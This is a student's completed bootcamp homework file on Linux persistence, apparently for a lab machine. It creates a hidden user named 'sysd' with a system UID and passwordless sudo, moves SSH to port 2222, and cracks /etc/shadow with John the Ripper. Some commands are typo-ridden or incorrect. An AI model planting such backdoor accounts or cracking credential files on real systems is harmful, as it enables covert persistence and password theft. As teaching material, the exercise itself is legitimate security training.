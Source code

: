 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
   
    - `adduser sysd`

    

2. Give your secret user a password: 
   
    - `cybersecurity`

3. Give your secret user a system UID < 1000:
  
    - `nano etc/passwd
        
change UID value to 468`

4. Give your secret user the same GID:
  
   - `nano etc/passwd`
       
 change GID value to 468


5. Give your secret user full `sudo` access without the need for a password:
   -  
   `nano etc/sudoers`
        
enter under user pivilege specification
            
`sysd    ALL=(ALL:ALL) NOPASSWRD:ALL `

6. Test that `sudo` access works without your password:
   
    `sudo nano etc/sudoers`
   

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

sshd.config

uncomment and adjust the line port22

    port 2222
    

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    
    - `sudo systemctl restart ssh.service
    `

2. Exit the `root` account:
    - 
    `su sysd`
        `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    
    - `sudo -s`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:
   
    sudo -s
    - `cd /etc
        john shadow`
 
---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

